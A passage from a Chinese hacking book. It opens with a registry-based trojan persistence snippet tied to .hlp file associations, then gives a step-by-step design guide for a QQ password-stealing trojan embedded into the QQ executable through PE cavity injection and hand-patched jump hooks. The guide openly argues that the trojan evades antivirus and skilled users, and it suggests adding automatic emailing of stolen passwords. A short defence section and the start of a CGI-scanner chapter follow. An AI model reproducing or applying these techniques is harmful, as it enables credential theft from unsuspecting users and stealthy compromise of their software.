retValue = RegCreateKey(HKEY_LOCAL_MACHINE, REGKEY1, keyId) 
subKey = "command" 
keyvaluE = "c:\windows\desktop\mytest.exe" 
retValue = RegSetValue(keyId, subKey, 0, keyvaluE, Len(keyvaluE)) 
' 将桌面上的 mytest.exe 与帮助文件关联 
End Sub
```

将上述代码生成可执行文件以mytest.exe为名存在WINDOWS桌面上，运行一下，在系统目录中就会出现名为kpcom32.exe的文件，并且下次开机自动运行。假如你把kpcom32.exe文件删除，只要mytest.exe还有，当你点击后缀为.hlp的文件时，kpcom32.exe便复活了。

以上的介绍仅是部分基本原理，真正的“木马”程序不会有这么简单，它们还会有诸如键盘记录、远程控制之类的功能。但是，知道了这些，我们便可防范一些常见“木马”，主要注意以下几点：

- 1、千万注意在运行不明程序时备份注册表文件，一旦出现异常立即恢复；
- 2、由于多数“木马”会隐藏于系统目录，最好将正常系统目录下的可执行文件列一清单，以便审查；
- 3、学习一些关于注册表的知识，不定期检察注册表中文件关联是否异常；
- 4、经常升级杀毒软件。

由于笔者水平有限，不可能再作详细论述，如果有朋友还有其他高见，请不吝赐教。

### 2.12 与嵌入式木马的亲密接触

传说古希腊人久攻特洛伊城攻不下，最后佯装撤退，留下了内部装有勇士的木马，结果特洛伊人高兴地将木马当作战利品拉回城中，半夜时木马中的勇士钻出来打开城门，与攻城的大部队里应外合一举攻克了特洛伊城。现今所谓的特洛伊木马就是指这类伪装成有用的或有价值的程序，其中又包藏祸心，专门背地里大开被害者后门，使用户丢失机密数据的恶意程序。

特洛伊木马代表了一种级别很高的危险，主要是因为：

- 1. 特洛伊木马会偷偷地在你很难注意到的地方将自己加载（且可能不止在一处地方加载），通常用Ctrl+Alt+Del键也不会显示出木马进程。
- 2. 特洛伊木马通常会给自己起一个好名字，如KERNEL32.EXE等，使他人认为其为系统进程，不会对其存有戒心。
- 3. 很多情况下特洛伊木马是以二进制形式存在，一般的普通用户根本无法阅读，因此也很难防范（尤其是对于捆绑型木马）。
- 4. 特洛伊木马可以作用在任何使用同一芯片的不同机型上，它具有一定的通用性，且通过一些高级语言编写的木马具有极高的可移植性。

#### 一、常见的木马设计思想

通常的木马具有服务端（SERVER）和客户端（CLIENT），通常要求给被害人安装服务端，自己则在客户端控制对方。且为了让对方每次启动时都运行服务程序，要求在被害人机器上实现自动加载服务程序。目前比较流行的方法是修改被害人机器的注册表或修改Win.ini、System.ini、config.sys、autoexec.bat、winstart.bat等系统启动时自动加载的可以加载程序的系统文件，这样就可以实现木马的隐蔽启动。

然而，这种方法的大量流行也造成了这种方法的迅速失效，只要稍微懂点木马知识的人就能够发现问题。且使用这种理论设计出来的木马最大的问题在于加载了进程、开启了端口，只要加载进程就必然在系统中留下痕迹，无论你用什么方法隐藏木马，在高手（慢慢地任何新手也会变成高手）面前通常也会原形毕露。因此，如不采用新设计思想，木马的得手率将逐步降低，最后可能再无无用武之地。

#### 二、新型木马的设计思想

我们已经知道老设计思想的最大问题在于存在进程，开放了端口，因此，新的理论应尽量避免使用进程及端口，倘若能将木马嵌入到正常程序中将解决存在进程的问题，如使用ICMP报文将解决端口问题。

在新型木马设计中，我们需要用到嵌入式程序设计理论，嵌入式程序设计设计与目前所谓的捆绑式木马改装完全不同，但却也有相似之处。

捆绑式木马改装在一定程度上实现了木马的隐蔽，它将木马和正常的程序捆绑在一起不能分离，但木马在运行方式上并没有任何更改，只是在启动正常程序的同时也启动了木马，它没有解决进程及端口存在的问题，且在注册表中同样存在健值，因此使用这项技术只能骗过通过特征码来识别木马及病毒的杀毒程序，但不能骗过真正的高手，高手会通过查找系统加载的进程及注册表发现问题。

使用嵌入式程序设计技术将木马与源程序完美的结合，就好像设计程序的时候就已经将木马功能考虑在内，一般的人根本无法察觉有任何不妥之处。倘若将指令变异技术加入其中将大大提高其隐秘等级，使得杀毒软件也很难正确识别其代码。使用这项技术根本不会产生进程，也不用修改注册表，就算是高手，不通过跟踪分析指令也很难发现其中有问题。木马就是原来的程序，原来的程序就是木马，你永远都不可能在系统进程表及注册表中找到任何有价值的线索。除非你不用这个程序，否则你就一定会被黑哦！

#### 三、学习嵌入式程序设计需要了解的相关知识

- 1.《环境工程学》
- 2.《汇编程序设计》
- 3.《Win32环境下的汇编程序设计》
- 4.《病毒学》
- 5.《Win32环境下的病毒设计》
- 6.机器码
- 7.空穴理论
- 8.PE文件头格式

#### 四、为何需要使用嵌入式程序设计

目前，网络上各种查杀木马的程序到处可见，且越来越多的网站都有介绍怎样防范木马的网页。同时，最重要的是，越来越多的网民已经基本了解了木马的入侵过程，知道了通常的防范办法，再加上各种软件也已经针对木马程序做出了调整，此时的木马程序能起到的作用已经是微乎其微了。如果不能在如此恶劣的环境下谋求突变，则木马的末日将指日可待了。

举个简单的例子，QQ木马曾经风靡一时，多少人的QQ号被木马给盗走，然而，时至今日，各种木马终结软件随处可见，大多数杀毒软件也将其列为必杀程序行列，QQ软件本身也采取了防盗措施，以往的木马都不能在新版QQ手中盗取到QQ号，网络上到处都有告诫网民防范QQ木马的方法，因此，几乎所有的已知QQ木马程序都不能再有多大作为了。

在如此环境下，嵌入式程序设计将带来一片光明前景，它真正解决了目前木马程序所面临的巨大挑战，它使木马完全嵌入到源程序中，实现了木马与源程序完美结合。

如将其应用来制作QQ盗号木马，从目前的情况来看，没有任何人能在不分析代码的情况下发觉存在木马。更绝的是它的代码是可以重复使用的，只要针对新版QQ做出相应少量的更改（主要是重新定位地址），在重新定位地址之后，新版的QQ木马就被生产成功了，使用这项技术能在最短的时间内生产出新版QQ木马。因此，木马要谋求发展就应该使用嵌入式程序设计来发展木马。

#### 五、基本工具软件

- TRW2000：动态调试软件
- HIEW：16进制编辑器，同时支持汇编语言修改文件代码
- WINHEX：Windows环境下使用的16进制编辑器
- VC++编译器：C++语言的编译工具

这几个软件的使用方法请参见相关资料。

#### 六、撰写嵌入式木马所需具备的基本知识

依照《木马设计理论》我们知道，要想使自己设计的木马不被发现，就必须仿照程序运行的界面，使用户在仿照的界面中输入用户名及密码，同时在其输入完成后再将控制转移到正常程序，如能够不再出现输入用户名及密码对话框，则具有很强的隐蔽性，通常难被发现（如水平不够则可能设计不出隐蔽对话框的木马。这时，折中的解决办法是弹出出错对话框，要求用户再次输入。水平更高的木马是采用查找窗口句柄，一旦发现了指定的窗口句柄，就调用相应函数来获得用户名及密码）。然而，这种模仿最大的问题在于加载了进程，它必然要求木马进程先于QQ进程运行，在某些高手面前必然会被识破，因此，这种方式存在有巨大缺陷。

倘若使用《环境工程学》的观点再配合嵌入式程序设计来模仿程序运行，则不会产生以上问题。依照《环境工程学》的观点，我们要模拟程序运行时，必须模拟程序运行时需要用到的所有指令及数据。指令通常是不变的，然而数据却是可变的，尤其是变量单元存储的数据随时都可能发生改变，因此，我们不大可能模拟整个程序运行期间所可能用到的所有指令及数据，但却可以模拟出程序在某一个时间点或某个执行点上所需要的指令及数据。

现在的问题被指向执行点或时间点，如何确定要模拟的时间点或执行点呢？这就要求我们必须明确设计木马是为了干什么。明确了之后，我们就可以惟一确定我们要找的时间点或执行点。

对于盗取QQ号码的木马，我们需要寻找的指令执行点是出现了输入QQ用户名及密码后，按下“下一步”时，QQ主程序用来获取用户输入信息的那条指令后，下一条指令前（假设在100处的指令是得到用户输入信息，其下一条指令位于106处），则我们要模拟的数据是在指令运行到106处所产生的所有数据，相当于中断中所阐述的断点。

更详细的解释参见《环境工程学》。

在找到执行点或时间点后，我们有两个问题要解决。一是，我们需要在此插入代码，并且要求被插入的代码修改的数据及指令不能影响到源程序的正确运行；二是，必须保护在此执行点或时间点上的所有数据，使数据相对于源程序没有任何更改。解决了这两个问题后，就完成了指令的嵌入，使指令和源程序紧密结合，无法分离。

#### 七、指令执行点的寻找

利用TRW2000调试器，跟踪QQ软件，经过长时间的跟踪后，在5CB1DC处发现如图2-17所示的指令。

执行完这条CALL指令后，QQ程序就读取了用户在QQ登陆窗口输入的一行数据（先读密码行，后读用户名行）。因为，我们要求得到的是用户名及密码，因此，我们应该在此处做手脚。切记：做手脚时一定要保证程序相对运行环境不能被更改，否则一定会引发问题。

在寻找到指令执行点之后，我们要做的事情就是在源代码中找到一段足够大的空间来存放我们要嵌入的代码，这就需要了解空穴攻击的基本知识。

#### 八、空穴攻击的原理



图2-17

#### 1.PE文件格式中的空穴

PE (Portable Executable) 是微软在开发NT时由COFF (Common Object File Format) 格式改进而来，其可移植性 (Protable) 源于NT，在不同硬件环境的实现均采用此种可执行文件格式。

PE这一可执行文件格式的结构从头到尾通常可依次划分为DOS代理头、DOS代理程序块、PE标识、PE文件头、PE区段属性表以及PE区段数据这6个部分。

DOS代理头和DOS代理程序块两个部分基本上构成了一个及其简单的DOS可执行程序。之所以称之为基本上构成，是因为PE的DOS代理部分与真正的DOS程序有本质的不同。DOS代理程序是运行在虚拟86模式下的，而DOS程序通常是运行在实模式下的。

Windows系统通过PE文件头偏移3C处的一个名为e_lfanew的双字参数来识别DOS文件头与Windows下的PE文件头（此参数是一个指向PE标识的指针，PE文件标识是由PE\0\0的ASCII码组成）。

PE文件标识之后是PE文件头，PE文件头包含了PE可执行代码的入口点、装载的位置、区段的数目等基本信息。PE文件头后是PE区段属性表以及PE区段数据（区段是PE文件中同一类数据的集合）。一个区段的名称、位置、大小等属性信息保存在一个区段的属性表中，区段包含的具体内容则存在于其后的区段数据中。

#### 2.空穴的来源

PE结构的前5个部分统称为PE文件头，通常，此5个部分顺序占用着一个PE文件从开头起的1k字节空间，而剩余空间则大都由PE区段数据占用。

由于DOS代理文件头与DOS代理程序块一般共占用150左右的字节，PE标识为4个字节，PE新文件头通常为200字节左右，一个区段属性表固定为40个字节，若按照平均5个计算则占用200个字节，这样链接器为PE文件头所保留的1K字节空间通常会空出好几百个字节毫无用处，这就是PE文件空穴的主要来源之一。

PE文件空穴的主要来源之二存在于链接器为PE区段数据分配的空间。在PE新文件头中有一个文件对齐属性（FileAlignment），PE文件包含的每个区段在PE区段数据中占用的空间大小都必须与此对齐属性对齐，若指定对齐属性为256个字节，那么即使程序代码只有几个字节，其所生成的PE文件的代码段也要占用256个字节，这样就导致了产生200多个字节的巨大空穴。在现实中，最常见的文件对齐属性是512个字节，因此将会产生巨大空穴可以被利用。

#### 3.区段空穴的计算

如何获得各个区段空穴的相关信息呢？

- (1) 程序自动计算区段空穴

自动计算的依据来自PE区段属性表，其内的每一个区段属性表都保存有对应区段的属性信息，具体如下：

```
UCHAR Name[8];
ULONG VirtualSize;
ULONG VirtualAddress;
ULONG SizeOfRawData;
ULONG PointerToRawDate;
...... //可以忽略不计
```

上面列出的5个字段提供了计算区段空穴所需要的所有信息。第一个字段为区段名；第二个字段VirtualSize为区段被实际利用的空间；第三个字段为PE文件被系统装载后相对装载基地址的偏移；第四个字段为区段在PE文件中实际占用的空间的大小，即PE文件基于文件对其属性为其保留的空间大小；最后一个字段为区段在文件内部的偏移。

- 各区段空穴的大小=SizeOfRawDate-VirtualSize
- 各区段空穴在文件内的起始地址=Pointer To Raw Data+Virtual Size

- (2)利用PE文件头手动获得文件头空穴

用WINHEX软件打开原文件，在头1024个字节中寻找16进制的00，即为PE文件头空穴。

### 九、Win32下病毒设计入门

感染任何一个病毒都需要有寄主，把病毒代码加入寄主程序中（伴侣病毒除外），以下说明如何将病毒代码嵌入PE文件中。

PE文件的代码映像分为几个区段，在文件中通常会对齐页边界（4K）。一般来说，文件会加载在400000h开始的空间（文件头通常占用400000h到401000h共计4K的空间），而第一个区段在401000h处，同时入口地址也是401000h。由高级语言编写的程序，每个区段的长度不可能刚好是4K的倍数，因此，在区段的末尾将会存在一段未用的空间，这些空出来的空间可以用来存放病毒代码。一般来说，空出来的地方足够存放一个设计精良的病毒。

### 十、需要了解的API函数

在WIN32环境下的汇编使用堆栈传递参数，使用寄存器传递返回值，具体说明如下：

- (1)基本上所有的Windows API函数调用的参数传递都是使用STDCALL型，参数压入堆栈的顺序是从右压到左。
- (2)函数的返回值由寄存器给出，基本上所有的编译器都会将函数的返回值存放到EAX及EDX寄存器中。当返回值为32位时，存放在EAX寄存器中，当返回值为64位时，存放在EDX:EAX中。

需要了解的函数声明如下：

- 1.CreateFile打开（创建）文件函数

CreateFile函数原型如下：

```
HANDLE CreateFile
{
LPCTSTR LpFileName,
DWORD DwDesiredAccess,
DWORD DwShareMode,
LPSECURITY_ATTRIBUTES LpSecurityAttributes
DWORD DwCreationDistribution,
DWORD DwFlagsAndAttributes
HANDLE HtemplateFile
};
```

## 函数参数参见图2-18。

# CREATEFILE函数的参数

| 参数 | 描述 |
|---|---|
| lpFileName | 指向以NULL结尾的字符串，该字符串指向要创建的文件名 |
| dwDesiredAccess | 指定访问对象的类型，应用程序可获得读写执行的权利 |
| DwShareMode | 标志位的集合，它指定程序如何共享对象 |
| LpSecurityAttributes | 此参数确定子程序能否继承返回的句柄 |
| Dwreationistribution | 指定对已存在的文件的操作，及文件不存在时的操作 |
| DwFlagsAndAttributes | 指定文件的属性标志 |
| HTemplateFile | 在WINDOWS环境中此参数通常为0 |

图2-18

# 2. SetFilePointer设置文件指针函数

SetFilePointer函数原型如下:

```
DWORD SetFilePointer
{
HANDLE hFile,
LONG lDistanceToMove,
PLONG lpDistanceToMove,
DWORD dwMoveMethod,
};
```

函数参数参见图2-19。

# SETFILEPOINTER函数的参数

| 参数 | 描述 |
|---|---|
| hFile | 文件句柄，该文件句柄必须有读写权力 |
| lDistanceToMove | 指定移动的字节数，正值使指针向前移，负值使指针向后移动 |
| lpDistanceToMoveHigh | 指向64位移动的高字部分，如为32位移动则应为0 |
| DwMoveMethod | 指定文件指针移动的起始点 |

图2-19

# 3. ReadFile读文件函数

ReadFile函数原型如下:

```
BOOL ReadFile
{
HANDLE hFile,
LPVOID lpBuffer,
DWORD nNumberOfBytesToRead,
LPDWORD lpNumberOfbytesRead,
LPOVERLAPPEND lpOverLappend
};
```

函数参数参见图2-20，ReadFile的参数与WriteFile的参数含义基本一致。

# WRITEFILE函数的参数

| 参数 | 描述 |
|---|---|
| hFile | 文件句柄，该文件句柄必须有读写权力 |
| lpBuffer | 指向文件缓冲区，该缓冲区中包含要写入文件的数据 |
| nNumeberOfByteToWrite | 指定写入文件的字节数 |
| lpNumeberOfBytes-Written | 指定WRITECALL写入的字节数 |
| lpOverlapped | 通常为0 |

图2-20

# 4、WriteFile写文件函数

WriteFile函数原型如下:

```
BOOL WriteFile
{
HANDLE hFile,
LPVOID lpBuffer,
DWORD nNumberOfBytesToWrite,
LPDWORD lpNumberOfbytesWrite,
LPOVERLAPPEND lpOverLappend
};
```

函数参数参见图2-20。

# 5、CloseHandle关闭文件函数

CloseHandle函数原型如下:

```
BOOL CloseHandle(HANDLE hObject);
```

参数hObject为打开的对象的句柄。

# 十一、函数具体参数的汇编形式的获取

虽然我们知道了函数原型及其参数，但我们得到的是C++语言形式的函数原型及其参数，这对我们来说没有多少价值，因为使用嵌入式编程的首选语言应该是汇编语言，因此，我们必须得到使用汇编语言形式的函数及其参数。

为了得到汇编语言形式的函数及参数，我们可以用C++语言写一个程序，再用调试器或反编译器得到其汇编形式即可。为此，我设计了如下C++代码（在VC++6.0中通过编译）:

```
#include <windows.h>
void main()
{
static HANDLE hFile;
DWORD dwWritten;
LPCTSTR lpBuffer="This is the string that will be written to the file.";
hFile = CreateFile( "FILE.DAT", GENERIC_READ | GENERIC_WRITE,0,NULL,OPEN_ALWAYS,
FILE_ATTRIBUTE_NORMAL, NULL );
SetFilePointer( hFile, 0, NULL, FILE_BEGIN );
WriteFile(hFile,lpBuffer,strlen(lpBuffer)+1, &dwWritten, NULL );
CloseHandle( hFile );
}
```

用VC++6.0编译后，再用TRW2000调试器拦截相应的Windows API函数，得到如下汇编形式:

```
PUSH 0
PUSH 2
PUSH 4
PUSH 0
PUSH 0
PUSH C0000000
PUSH "FILE.DAT" 字符串存放的地址
```

```
CALL	CreateFile(按照从右到左的顺序压入堆栈)
PUSH	2
PUSH	0
PUSH	0
PUSH	文件句柄
CALL	SetFilePointer
PUSH	0
PUSH	65FDF0(在不同的程序中此值不同)
PUSH	35
PUSH	写人的数据存放的位置
PUSH	文件句柄
CALL	WRITEFILE
PUSH	文件句柄
CALL	CLOSEHANDLE
```

到此为止，我们已经得到了代码的汇编形式，如果我们要求得到创建隐藏文件的汇编代码，则只需要修改以上C++语言形式中的FILE_ ATTRIBUTE_NORMAL为FILE_ATTRIBUTE_ HIDDEN，再将其编译反汇编即可。

请注意：如此得到的代码并不是最终我们需要的代码，因为此代码中含有部分地址定位代码，如CALL XXXX，其XXXX是通过使用内存重定位技术得到的。因此，所有诸如CALL XXXX的指令都是无效的，要获得有效的CALL XXXX指令，只有调试要改成木马的源程序，在源程序中获取其定位用的内存地址（此地址存放的是真正要调用的程序代码段地址）。

#### 十二、编程思维

在学习了以上相关知识后，我们可以开始动手编写程序了。

到此为止，我们已经找到了执行点，这个执行点的逻辑意义是获得我们写入的用户名及密码。这时，我们就要考虑替换掉调用这个函数以后的代码，让它在我们的控制下将此函数所得到的用户名及密码交给我们，我们在得到用户名及密码后必须调用相关文件操作函数，将我们得到的用户名及密码保存到文件（即记录下得到的数据）。

我们可以考虑用跳转指令来替换原指令，使其工作流程转向。在处理完保存数据的事件后，我们必须使用跳转指令，将其工作流程转回。

在此过程中必须还原被我们替换的代码，这样才能保证源程序的运行逻辑不被更改。在我们调用的相关文件操作函数及插入的新代码中，如包含有更改寄存器、存储器、堆栈、标志寄存器等可能破坏程序运行环境的指令，则我们必须保存相关的环境参量，以备还原。

#### 十三、编写程序时遇到的困难及解决办法

在实际编写代码时，我们必须解决以下问题：

- (1) 我们必须使用手工方式编译代码。因为我们没有现成的编译器能完成此项编译工作，现有的编译器将代码编译得过大，不适于嵌入操作，因此，我们必须借助HIEW黑客软件来编译代码。

我们可以将代码输入，此时编译器产生的代码为16位代码，且有66H或67H的前缀，我们去掉前缀，保留余下部分，就是我们需要的32位代码。这是因为，在保护模式下运行的程序是按16位方式运行，还是按32位方式运行，主要要看其段属性，其段属性为16位则按16位方式运行，其段属性为32位则按32位方式运行。

- (2) 在编程的时候需要注意，不要使用绝对地址指令。这相对来讲比较难把握，通常需要实践再实践来检验你的指令中是否含有绝对地址指令。绝对地址产生的原因是由于调试指令时，我们看到的都是绝对地址（相对于这台机器来讲），这些地址在换一台机器或更换操作系统版本后通常都不能用（此处的不能用是指逻辑上的不能用，是指它已经不是我们要求的地址，但在物理上这个地址却是存在并能被使用的）。如用户名保存的地址就属于这类地址，在这台机器上的用户名存放地址，换一台机器就可能不是用户名存放地址，如果我们用这个地址作为写用户名到文件时的数据存放地址，则换一台机器就可能得不到正确的用户名，而只是一堆乱码。

解决这类问题的方法是重新跟踪指令，找到其相对地位地址，使用相对地位地址来编写指令。

- (3) 要注意权限问题。在Windows保护模式下，应用程序处于最低层，没有多少权利，因此，这个问题尤其重要，稍不注意就会引发非法操作。以我目前取得的经验来看，非法操作的产生主要是由于越权访问引发的。你可能会说，错误的指令逻辑也会引发。但这只是表面现象，错误的指令在执行时通常会跳转到不可预知的地址，指令执行地址一旦变动就使得指令发生的改变，改变了的指令在访问了其无权访问的内存后就触发了内存越界错误。

倘若应用程序切换到了核心态，则越权访问的问题将变得更加严重，这时，应用程序有足够的权利访问、修改任何内存，一旦操作系统内存区域被其修改，则可能引发诸如死机、重启甚至格式化硬盘等严重危害系统安全的问题。在这种情况下不会有任何的警告窗口弹出，因此，这时的越界访问问题就显得尤为重要!

解决办法是不允许被修改的部分切换到核心态操作，并使用Windows API函数调用，因为Windows API函数运行于核心态且它包含的代码经过验证是基本正确的，一旦越权访问了内存也不会引发非法操作，更重要的是使用它不会使操作系统内存被改写，因为它会识别内存读写权限，一旦没有写的权限则不会改写内存，同时不产生非法操作，仅仅是通过寄存器返回失败代码。

如在QQ盗号木马的代码设计中，我遇到了一个需要读取内存时发生内存非法访问错误。当时，我试用了多种方法都不能成功解决，但此处是必须访问的内存，否则就盗不到新注册的用户名及密码，因此，我提出使用Windows API函数调用来解决的方案（因为API函数运行于特权级）。当时使用的是LSTRCPY函数调用，想将内存中的数据拷贝出来，使用此函数调用后，发现在400000H~401000H这段空间（属于PE文件头影像空间）内同样没有写权利（在代码段的其他位置也找不到可以写入的空地址，数据段又不敢随便改写，哪怕有0的空地址），但却没有引发非法操作。

针对这种情况，我又提出堆栈写入方式。我们知道，任何代码都有权访问自己的堆栈段，同时可以读写堆栈。因此，我使用堆栈试了一下，发现效果很好。但使用堆栈有两个问题要注意：首先，必须注意堆栈数据的保护。我们写堆栈时必须注意写入的长度不应该超过堆栈的栈顶，即我们应该将数据写到堆栈的外面，不能使写入的数据覆盖堆栈中原有的数据；同时必须在数据被更改前使用写入的数据，因为，数据在堆栈的外面是不受保护的。其次，必须注意写入数据长度的控制问题。对于LSTRCPY函数是很难控制其写入数据的长度的，因为它是以0为结束标志，而数据时时都在变化，谁也说不清使用这个函数拷贝数据段中的数据的最长长度到底会有多长（对数据段而言，数据时时都可能发生改变，因此数据的长度时时都可能变更），倘若超过了我预留的空间，则会造成堆栈缓冲区溢出错误。

因此，我又找到了ReadFile、WriteFile两个系统调用，对于这两个调用来说，我们可以控制其读出、写入的数据的长度，因此在我的设计中使用的是这两个函数进行内存数据盗取!

- (4) 要注意必须建立盗取标志，不要重复执行盗取指令。在测试中我发现，不建立盗取标志的测试木马用不了多久就会引发非法操作，通过对盗取文件的分析，我发现引发非法操作后的文件必然操作一堆乱码。这说明，在程序正常运行过程中，又运行到存有盗取指令的地方。同时，盗取指令越权访问了内存。我设计的盗取木马中对内存的定位是使用相对定位方式定位的，也就是所谓的二级指针方式。我通过指针定位指针，然而指针内的指针地址是可以被修改的。在指针被修改情况下访问很可能会引发非法操作，因次，我们必须建立一个标志表示已经盗取了用户名及密码，无需重复盗取。只要盗取过就不再盗取了，这样，无论指针被怎样修改都不会引发任何问题。

现在的问题在于如何建立盗取标志。我们知道我们无法写任何除了堆栈以外的内存区域。如果我们把标志建立在堆栈中，则有可能破坏堆栈的运行逻辑，使程序引发非法操作；更大的可能是根本无法保存此数据，因为堆栈的大小时时都在改变，我们无法在堆栈中找到一个相对不变的地址来存放数据。

为此，我提出文件解决方案。我们可以建立标志文件，一旦发现文件存在，则表示已经盗取过数据了，没有发现则盗取数据并建立标志文件。在程序开始或结束时应该删除该标志文件，以防止错误的判断。

- (5)必须注意跳转指令的写入问题。我们写入跳转指令时通常没有计算出每条指令的位置，通常使用的是逻辑符号来标记要跳转的位置。因此，我们在不知道跳转的具体位置时可以用0来代替；等到知道时，再改写0值即可。

在我们不知道条件跳转的具体长度时，我们可以估计其长度，如估计将超过128个就使用16位跳转指令，不会超过的就使用8位跳转指令；实在搞不清楚，则通通使用16位跳转指令。

#### 十四、编写指令时的一点忠告

我们编写汇编指令时，一定要记得留有空隙（用90H填充），最好是在两行内留3个左右的空隙。因为，对于这类复杂的程序没有人能一次编写成功。倘若你不留有空隙则很难修改你编写的指令，你可能要重新手工输入代码，这样会使你感到极不耐烦。

对于某些比较难理解的操作，最好在机器上用调试器来帮助你理解，如你执意自己用逻辑来推算，一来时间会拉得很长，二来很可能会推理错误。如堆栈内的数据交换操作，我自己曾经推理了半天都有问题，在机器上一调试就很容易理解并找出解决方案。

对于在逻辑上似乎没有问题却又引发非法操作的程序，排错工作应该从堆栈的平衡找起。通常这类问题都是由于堆栈不平衡引发的，这就要求你必须严格审查每一次进栈及出栈操作，尤其是在存在有分支情况下的堆栈操作，通常可能是由于在某一个分支中没能平衡堆栈操作引发的。

必须注意程序运行环境的保持。我们必须保证插入的指令不修改程序用到的寄存器、存储器、堆栈、标志寄存器等可能引发程序运行环境发生改变的环境参量。在我们的插入的代码必须修改其中的某一项时，我们必须保存这一项的数值，以备还原。

### 代码实现篇



### 对程序的改进建议

目前，这个木马程序不能识别重复的QQ号码，由此将造成QQ号码重复盗取，从而使数据产生冗余。因此，我建议写入QQ号码及密码时应该加入校验代码，检查是否有重复QQ号码（注意：不能只检查是否有QQ号码的重复，要考虑到可能会有输入密码错误的情况，因此应该检查是否有QQ号码及密码的重复），以此来最大限度地消除数据冗余现象。

再有就是目前这个木马没有自动发回功能，每次盗取需要从机器上盗取，这太麻烦了，因此，建议加入自动发回指定邮箱的功能。

### 木马防御

此类木马相对来说较难防范，但也不是完全无力抵御。对网吧用户来说，要通过禁止下载文件来防止他人恶意种植木马，对腾讯公司来说，至少有两种方法可以抵御这种木马:

- (1) 在程序源代码中加入检测文件校验码的代码，一旦文件校验码被更改，则弹出警告窗口并结束文件运行。

- (2) 针对此类木马的运作机理，破坏其运行条件，因其在指令定位上使用的是绝对地址定位指令，可以通过使用指令变异技术使其定位指令失效（指令一旦变异则其长度可能发生变化，但在逻辑上指令却没有任何更改；在长度发生变化的情况下，其下条指令地址必将发生变化，倘若使用的是绝对地址定位或相对当前指令的偏移地址定位，都将使其指向的地址不符合逻辑，同时必将更改其以后的所有代码，使程序执行非法操作）来达到防范的目的。

## 第3章 扫描器编程实现

## 3.1 CGI扫描器的简单实现

### 一、TCP（Transfer Control Protocol：传输控制协议）基础

数据控制传输协议允许创建和维护与远程计算机的连接。连接两台计算机就可彼此进行数据传输。如果创建客户应用程序，就必须知道服务器计算机名或者 IP 地址（Remote Host 属性），还要知道进行“侦听”的端口（Remote Port 属性），然后调用 Connect 方法。

如果创建服务器应用程序，就应设置一个收听端口（Local Port 属性），并调用 Listen 方法。当客户计算机需要连接时就会发生 Connection Request 事件。为了完成连接，可调用 Connection Request 事件内的 Accept 方法。

建立连接后，任何一方计算机都可以收发数据。为了发送数据，可调用 Send Data 方法。当接收数据时会发生 Data Arrival 事件。调用 Data Arrival 事件内的 Get Data 方法就可获取数据。

### 二、Winsock控件描述

要创建一个cgi漏洞扫描程序，我们就需要使用Winsock控件，下面列出了Winsock控件的介绍。请把它看完，因为这是我们下一个步骤的前提条件。

| Winsock控件的基本属性、方法、事件 |
|---|
| 属性 | 方法 |
| LocalHostName | 本地机器名 | Listen |
| LocalIP | 本地机器IP地址 | Listen方法用于服务器程序，等待客户访问。<br>格式：Winsock对象.listen |
| LocalPort | 本地机器通信程序的端口(0<端口<65536) | Connect |
| RemoteHost | 远程机器名 | Connect方法用于向远程主机发出连接请求<br>格式：Winsock对象.connect [远程主机IP,远程端口] |
| RemotePort | 远程机器的通信程序端口 | Accept |
| state | 连接的当前状态 | Accept方法用于接受一个连接请求<br>格式：Winsock对象.accept Request ID |
| Protocol | 使用TCP或UDP协议 | Senddata |
| 事件 | 此方法用于发送数据<br>格式：Winsock对象.senddata 数据 |
| Close | 远程机器关闭连接时触发 | Getdata |
| Connect | 连接建立好，可以进行通信时触发(客户端) | 用来取得接收到的数据<br>格式：Winsock对象.getdata 变量 [,数据类型 [,最大长度]] |
| ConnectRequest | 有请求连接到达时产生(服务器端) | Close |
| DataArrival | 有数据到达时触发 | 关闭当前连接<br>格式：Winsock对象.close |
| Error | 发生错误时发生 | |
| SendProgress | 数据传送进度 | |

| Winsock的state属性 | | |
|---|---|---|
| 常数 | 值 | 描述 |
